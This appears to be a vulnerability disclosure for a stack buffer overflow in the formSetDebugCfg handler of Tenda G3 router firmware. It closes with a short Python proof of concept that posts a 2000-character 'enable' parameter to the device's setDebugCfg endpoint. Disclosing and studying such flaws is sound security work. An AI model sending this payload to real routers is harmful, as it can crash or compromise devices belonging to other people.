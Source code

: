 # Tenda G3 formSetDebugCfg
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formSetDebugCfg function.
### Vulnerability details
Stack-based buffer overflow in function formSetDebugCfg on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formSetDebugCfg line 15, it reads in 3 user-provided parameters, and the variable enable, level, module are passed to the sprintf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formSetDebugCfg-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setDebugCfg'
payload = {
    "enable": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
